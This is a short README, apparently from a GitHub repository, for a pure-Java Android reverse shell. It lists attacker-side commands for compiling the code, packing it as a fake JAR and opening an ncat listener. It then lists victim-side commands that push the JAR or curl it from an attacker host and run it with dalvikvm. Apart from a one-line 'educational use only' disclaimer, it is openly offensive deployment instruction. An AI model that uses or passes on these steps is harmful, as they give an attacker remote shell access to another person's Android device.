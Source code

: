 # Pure Java Android Reverse Shell

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

## On Attacker machine (you need android sdk installed and build-tools also):

#### Compile Java source code in bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 --output classes.dex AndroidReverseShell.class`

#### create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim android device:
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

You can just use DalvikVM bash script from Termux:

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

(pay attention to final "AndroidReverseShell" this must be same name used before, otherwise it fails!)

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner and so on...

## Todo

. Support for SSL encryption

## Disclaimer:

For educational use only !

Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java. All credits goes to original developer

